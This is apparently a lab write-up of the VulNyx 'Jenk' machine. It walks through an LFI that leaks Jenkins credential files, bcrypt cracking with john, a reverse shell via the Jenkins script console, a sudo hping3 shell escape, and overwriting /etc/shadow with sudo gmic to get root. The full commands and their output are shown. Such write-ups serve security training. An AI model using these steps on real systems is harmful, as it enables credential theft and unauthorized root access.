# writeup jenk vulnyx

## machine info
- VmName : Jenk
- Creator : d4t4s3c
- Level : medium
- Link : [https://vulnyx.com/](https://vulnyx.com/)

## walkthrough
### summary
- find LFI from a website (port 80)
- get jenkins username (andrew) and password hash from the website (port 80) using LFI
- get jenkins user's password (andrew) using john the ripper
- get a user shell (jenkins) from jenkins website (port 8080)
- get a user shell (andrew) using sudo command
- get a root shell using sudo command

### get machine ip address



### scan open ports
```
┌──(kali㉿kali)-[~/vulnyx/jenk]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.104
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 22:28 EDT
Nmap scan report for 192.168.0.104
Host is up (0.017s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp   open  http       Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
8080/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.47 seconds
```

### get a user shell
I checked out a website (port 80).

- whatweb
```
┌──(kali㉿kali)-[~/vulnyx/jenk]
└─$ whatweb http://192.168.0.104     
http://192.168.0.104 [200 OK] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[192.168.0.104], Title[Apache2 Debian Default Page: It works]
```

- [ffuf](https://github.com/ffuf/ffuf)
```
┌──(kali㉿kali)-[~/vulnyx/jenk]
└─$ ffuf -ic -u http://192.168.0.104/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.js,.xml,.txt,.php -mc 200,204,301,302,307,401,403,405,500,501,502,503,504,505  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .html .js .xml .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500,501,502,503,504,505
________________________________________________

[Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 1ms]
    * FUZZ: 

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 7ms]
    * FUZZ: .html

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9ms]
    * FUZZ: .php

[Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 702ms]
    * FUZZ: index.html

[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: webcams
```

Because I found a webcams directory on the website, I accessed the directory.


There are five link(cam1, cam2, cam3, cam4, cam5) on the website.
I could get webcams infomation and password from the links.
- cam1

- cam2

- cam3

- cam4

- cam5


I tried finding xml file in the directory.
- ffuf
```
┌──(kali㉿kali)-[~/vulnyx/jenk]
└─$ ffuf -ic -u http://192.168.0.104/webcams/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.js,.xml,.txt,.php -mc 200,204,301,302,307,401,403,405,500,501,502,503,504,505

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.104/webcams/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .html .js .xml .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500,501,502,503,504,505
________________________________________________

[Status: 200, Size: 555, Words: 49, Lines: 18, Duration: 470ms]
    * FUZZ: index.html

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 478ms]
    * FUZZ: .php

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 703ms]
    * FUZZ: .html

[Status: 200, Size: 555, Words: 49, Lines: 18, Duration: 703ms]
    * FUZZ: 

[Status: 200, Size: 555, Words: 49, Lines: 18, Duration: 3ms]
    * FUZZ: 

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3ms]
    * FUZZ: .php

[Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5ms]
    * FUZZ: .html

[Status: 200, Size: 177, Words: 11, Lines: 8, Duration: 1ms]
    * FUZZ: cam2.xml
```

Because I found cam2.xml file in the directory, I tried accessing it.


I just tried if I can access the file using the file path, I could access it.


So, I tried accessing another xml file (e.g. /usr/share/mime/font/otf.xml).


I could find LFI on the website.

Next, I checked out a website (port 8080).


- whatweb
```
┌──(kali㉿kali)-[~/vulnyx/jenk]
└─$ whatweb http://192.168.0.104:8080
http://192.168.0.104:8080 [403 Forbidden] Cookies[JSESSIONID.8cf6ec69], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.13)], HttpOnly[JSESSIONID.8cf6ec69], IP[192.168.0.104], Jenkins[2.401.2], Jetty[10.0.13], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]
http://192.168.0.104:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.8cf6ec69], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.13)], HttpOnly[JSESSIONID.8cf6ec69], IP[192.168.0.104], Jenkins[2.401.2], Jetty[10.0.13], PasswordField[j_password], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

We can get jenkins username and password hash from the following files.
- /var/lib/jenkins/users/users.xml
- /var/lib/jenkins/users/xxxxxx_xxxxxxxxxxxxxxxxxxxx/config.xml (get xxxxxx_xxxxxxxxxxxxxxxxxxxx directory from the users.xml file)

So, I tried getting them using LFI.
- username (andrew, andrew_15328478385288074167)

- password hash


I tried getting password using john the ripper.
```
┌──(kali㉿kali)-[~/vulnyx/jenk]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (#jbcrypt)     
1g 0:00:00:12 DONE (2023-07-23 01:22) 0.08136g/s 65.90p/s 65.90c/s 65.90C/s caitlin..dancing
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I could get password (andrew) and logged in the website (jenkins, port 8080).



Next, I tried getting reverse shell from script console using [revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).


I could get a user shell (jenkins).


When I executed sudo command, I found I can execute hping3 command with andrew privilege.
```
jenkins@jenk:/$ sudo -l
Matching Defaults entries for jenkins on jenk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jenkins may run the following commands on jenk:
    (andrew) NOPASSWD: /usr/sbin/hping3
```

So, I executed hping3 command as andrew with sudo and executed bash command in there.
```
jenkins@jenk:/$ sudo -u andrew /usr/sbin/hping3
hping3> /bin/bash
andrew@jenk:/$ id
uid=1000(andrew) gid=1000(andrew) grupos=1000(andrew)
```

I could get a user shell (andrew) and a user flag. 😺
```
andrew@jenk:~$ ls -la
total 24
drwx------ 2 andrew andrew 4096 jul 21 18:41 .
drwxr-xr-x 3 root   root   4096 jul 21 14:18 ..
lrwxrwxrwx 1 root   root      9 abr 23 09:34 .bash_history -> /dev/null
-rw------- 1 andrew andrew  220 ene 15  2023 .bash_logout
-rw------- 1 andrew andrew 3526 ene 15  2023 .bashrc
-rw------- 1 andrew andrew  807 ene 15  2023 .profile
-r-------- 1 andrew andrew   33 jul 21 18:41 user.txt
andrew@jenk:~$ cat user.txt 
0******************************1
```

### get a root shell
When I executed sudo command, I found I can execute gmic command with root privilege.
```
andrew@jenk:~$ sudo -l
Matching Defaults entries for andrew on jenk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User andrew may run the following commands on jenk:
    (root) NOPASSWD: /usr/bin/gmic
```

After searching for options of it, I found it can copy or overwrite text file as follows.
```
gmic -input_text old.txt -output_text new.txt
```

So, I can copy or overwrite /etc/shadow file by executing gmic command as root with sudo.
```
andrew@jenk:~$ sudo -u root /usr/bin/gmic -input_text /etc/shadow -output_text shadow.txt
[gmic]-0./ Start G'MIC interpreter.
[gmic]-0./ Input text-data file '/etc/shadow'.
[gmic]-1./ Output image [0] as text-data file 'shadow.txt'.
[gmic]-1./ End G'MIC interpreter.

andrew@jenk:~$ cat shadow.txt 
root:$y$j9T$WbjaXKpoFyguuh.PUcGtm/$DwHIdGSJOVJRxH5YWQobP8SIDQ9Uh5I5C/4tWEteJJ4:19559:0:99999:7:::
daemon:*:19372:0:99999:7:::
bin:*:19372:0:99999:7:::
sys:*:19372:0:99999:7:::
sync:*:19372:0:99999:7:::
games:*:19372:0:99999:7:::
man:*:19372:0:99999:7:::
lp:*:19372:0:99999:7:::
mail:*:19372:0:99999:7:::
news:*:19372:0:99999:7:::
uucp:*:19372:0:99999:7:::
proxy:*:19372:0:99999:7:::
www-data:*:19372:0:99999:7:::
backup:*:19372:0:99999:7:::
list:*:19372:0:99999:7:::
irc:*:19372:0:99999:7:::
gnats:*:19372:0:99999:7:::
nobody:*:19372:0:99999:7:::
_apt:*:19372:0:99999:7:::
systemd-network:*:19372:0:99999:7:::
systemd-resolve:*:19372:0:99999:7:::
messagebus:*:19372:0:99999:7:::
systemd-timesync:*:19372:0:99999:7:::
sshd:*:19372:0:99999:7:::
systemd-coredump:!*:19372::::::
jenkins:*:19559:0:99999:7:::
andrew:$y$j9T$1XgIAX5mr5fIqtATzk0nE0$07XuT7N7j9jpJ9w4FcqDaaXtpRBg1Nbo81QakohQHt5:19559:0:99999:7:::

andrew@jenk:~$ openssl passwd 123
0K8BXIm3vj/CQ

andrew@jenk:~$ cp shadow.txt shadow_new.txt 

andrew@jenk:~$ nano shadow_new.txt 

andrew@jenk:~$ diff shadow.txt shadow_new.txt 
1c1
< root:$y$j9T$WbjaXKpoFyguuh.PUcGtm/$DwHIdGSJOVJRxH5YWQobP8SIDQ9Uh5I5C/4tWEteJJ4:19559:0:99999:7:::
---
> root:0K8BXIm3vj/CQ:19559:0:99999:7:::

andrew@jenk:~$ sudo -u root /usr/bin/gmic -input_text shadow_new.txt -output_text /etc/shadow
[gmic]-0./ Start G'MIC interpreter.
[gmic]-0./ Input text-data file 'shadow_new.txt'.
[gmic]-1./ Output image [0] as text-data file '/etc/shadow'.
[gmic]-1./ End G'MIC interpreter.

andrew@jenk:~$ su - root
Contraseña: 
root@jenk:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

I could get a root shell and a root flag. 😺
```
root@jenk:~# ls -la
total 36
drwx------  5 root root 4096 jul 21 18:42 .
drwxr-xr-x 18 root root 4096 jul 21 13:12 ..
lrwxrwxrwx  1 root root    9 abr 23 09:36 .bash_history -> /dev/null
-rw-------  1 root root 3526 ene 15  2023 .bashrc
drwxr-xr-x  2 root root 4096 jul 21 18:36 gmic
drwxr-xr-x  3 root root 4096 jul 21 14:16 .jenkins
drw-------  3 root root 4096 ene 15  2023 .local
-rw-------  1 root root  161 jul  9  2019 .profile
-r--------  1 root root   33 jul 21 18:42 root.txt
-rw-r--r--  1 root root   66 jul 21 16:41 .selected_editor
root@jenk:~# cat root.txt 
d******************************2
```
